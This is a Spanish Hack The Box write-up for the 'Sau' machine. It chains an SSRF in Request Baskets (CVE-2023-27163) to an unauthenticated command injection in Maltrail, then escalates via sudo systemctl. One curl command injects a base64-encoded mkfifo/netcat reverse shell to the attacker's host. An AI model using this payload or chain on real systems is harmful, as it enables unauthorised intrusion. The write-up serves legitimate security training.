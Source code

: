 ```yaml
---
title: 'Sau'
date: 2024-01-06T12:16:15-03:00
permalink: /posts/htb/:title/
categories: ["Writeups", "HTB"]
tags: ['Linux', 'SSRF', 'RCE', 'Requests Baskets', 'CVE-2023-27163', 'Maltrail']
image:
  path: /assets/img/htb/sau/sau-0.png
---
```


En este post estaremos resolviendo la máquina [Sau](https://app.hackthebox.com/machines/Sau) de la plataforma Hack The Box. Esta máquina presenta una versión de **Request Baskets** vulnerable a SSRF (Server Side Request Forgery) identificada como **CVE-2023-27163**. Al explotar esta vulnerabilidad, logramos acceder a una instancia de **Maltrail** que es vulnerable a RCE (Remote Command Execution) la cual no requiere autenticación, permitiéndonos obtener una reverse shell en la máquina victima con el usuario **puma**. Posteriormente, aprovechamos una mala configuración de **sudo** para escalar nuestros privilegios y obtener un shell como el usuario root.

## Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![Reconocimento usando el comando ping](/assets/img/htb/sau/sau-1.png)

Vemos que responde al envío de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live), en este caso 64.

## Enumeración

### Descubrimiento de puertos abiertos

Realizamos un escaneo con `nmap` para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

![Escaneo de puertos con nmap](/assets/img/htb/sau/sau-2.png)

Parámetros utilizados:

- `-sS`: Realiza un TCP SYN Scan para escanear de manera sigilosa, es decir, que no completa las conexiones TCP con los puertos de la máquina víctima.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`).
- `--min-rate 5000`: Establece el número mínimo de paquetes que nmap enviará por segundo.
- `-Pn`: Desactiva el descubrimiento de host por medio de ping.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.
- `-oG`: Determina el formato del archivo en el cual se guardan los resultados obtenidos. En este caso, es un formato _grepeable_, el cual almacena todo en una sola línea. De esta forma, es más sencillo procesar y obtener los puertos abiertos por medio de expresiones regulares, en conjunto con otras utilidades como pueden ser grep, awk, sed, entre otras.

Como podemos observar, el resultado del escaneo nos presenta 4 puertos. Donde el puerto `22` y `55555` estan abiertos y por otra parte los puertos `80` y `8338` estan filtrados.

### Enumeración de versión y servicio

![Descubrimiento de versión y servicio con nmap](/assets/img/htb/sau/sau-3.png)

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos determinados anteriormente.

Parámetros utilizados:

- `-sCV` Es la combinación de los parámetros `-sC` y `-sV`. El primero determina que se utilizarán una serie de scripts básiscos de enumeración propios de nmap, para conocer el servicio que esta corriendo en dichos puertos. Por su parte, el segundo parámetro permite conocer más acerca de la versión de ese servicio.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`)
- `-oN`: Determina el formato del archivo en el cual se guardan los resultados obtenidos, junto con el nombre del archivo `targeted`. En este caso, utiliza el formato por defecto de nmap.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.

Solo por motivos de comodidad, agregamos al archivo `/etc/hosts` el dominio `sau.htb` para que al apuntar a este nos resuelva la ip de la máquina víctima.

```bash
❯ echo "10.10.11.224 sau.htb" | tee -a /etc/hosts
```
## Explotación de Request Baskets (SSRF)

Accedemos al sitio web que corre bajo el puerto 55555, podemos ver que la aplicación web es [Request Baskets](https://rbaskets.in/web) en su versión `1.2.1`.

![Requests Basktes](/assets/img/htb/sau/sau-4.png)

Si hacemos una búsqueda un Google, encontramos que esta versión es vulnerable a SSRF (Server Side Request Forgery) [CVE-2023-27163](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3), la cual afecta al componente de la api de Request Baskets `/api/baskets/{name}`.
Esto quiere decir, que esta vulnerabilidad permite a los atacantes acceder a recursos de red e información sensible mediante una solicitud API manipulada.

![New Baskte](/assets/img/htb/sau/sau-5.png)

Si creamos una nueva cesta, vemos que en principio esta vacia. Pero si realizamos solicitudes a la url `http://sau.htb:55555/kc75t4` como se nos indica, notamos que los detalles de la solicitudes son listados en el panel.

![Detalles de solicitud](/assets/img/htb/sau/sau-6.png)

Vemos también que podemos realizar algunas configuraciones, cambiando opciones como `Forward URL`.

Si tenemos en cuenta nuestro escaneo inicial de puertos, podemos recordar que el puerto `80` de la máquina victima estaba filtrado. Por lo tanto, podemos probar apuntar a ese puerto de la máquina, indicando como **Forward URL** el localhost (`http://127.0.0.1`). También debemos marcar la casilla `Proxy Response`, para que nos redirija las respuestas desde la URL de reenvío (en este caso el localhost).

![Configuración](/assets/img/htb/sau/sau-7.png)

Si ahora accedemos a la url `http://sau.htb:55555/kc75t4`, podemos notar que logramos acceder a un sitio web que en principio no teniamos acceso.
De esta manera, logramos aprovecharnos de la vulnerabilidad SSRF, para acceder a un sitio interno.

![Configuración](/assets/img/htb/sau/sau-8.png)

## Explotación de Maltrail - (RCE)

Podemos apreciar en el pie de página de la web, que lo que esta corriendo bajo el puerto 80 es la aplicación **Maltrail** en su versión **v0.53**.

Al investigar un poco sobre Maltrail en esta versión especifica, podemos notar que es vulnerable a RCE (Remote Code Execution) [Maltrail v0.53](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/).

![Mailtrail v0.53](/assets/img/htb/sau/sau-9.png)

## Reverse Shell - `puma`

Teniendo en cuenta que la aplicación es vulenrable a **RCE**, lancemos directamente una reverse shell para ganar acceso al sistema.

En primer lugar, creamos el payload a enviar.

![Reverse Shell](/assets/img/htb/sau/sau-10.png)

Luego, nos ponemos en escucha con `nc` por el puerto 4444.

Enviamos la reverse shell usando `curl`.

```bash
curl http://sau.htb:55555/kc75t4r/login --data 'username=;`echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjEwLjE0LjYyIDQ0NDQgPi90bXAvZgo=" | base64 -d | sh`'
```

De esta forma, ganamos acceso al sistema como el usuario `puma`.

![Reverse Shell](/assets/img/htb/sau/sau-11.png)

Hacemos un tratamiento de la tty para tener una terminal más interactiva:

- `script /dev/null -c bash`
- CTRL + Z
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows <rows> columns <columns>`

Leemos el flag del usuario.

![Flag del usuario](/assets/img/htb/sau/sau-12.png)

## Escalación de privilegios

Al realizar una enumeración del sistema, observamos que tenemos la capacidad de ejecución con privilegios **sudo** sin necesidad de proporcionar contraseña. Esto nos permite utilizar la herramienta `systemctl` y verificar el estado del servicio `trail.service`.

![Enumeración del sistema](/assets/img/htb/sau/sau-13.png)

Si realizamos una búsqueda en [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo), podemos ver que se puede abusar de este comando utilizando `!sh` para obtener un shell. 

![Escalada de privilegios](/assets/img/htb/sau/sau-14.png)

Esto sucede, debido a que `systemctl` utiliza `less` para mostrar el estado de un servicio.

![Escalada de privilegios](/assets/img/htb/sau/sau-15.png)

Por ultimo, leemos el flag del usuario `root`.

![Flag del usuario root](/assets/img/htb/sau/sau-16.png)

De esta forma, llegamos al final del Write-up de la máquina Sau.

Espero que los conceptos hayan quedado claros. Si has llegado hasta este punto y aún tienes dudas, te recomiendo volver a realizar la máquina.

Gracias por tu lectura!

Happy Hacking!
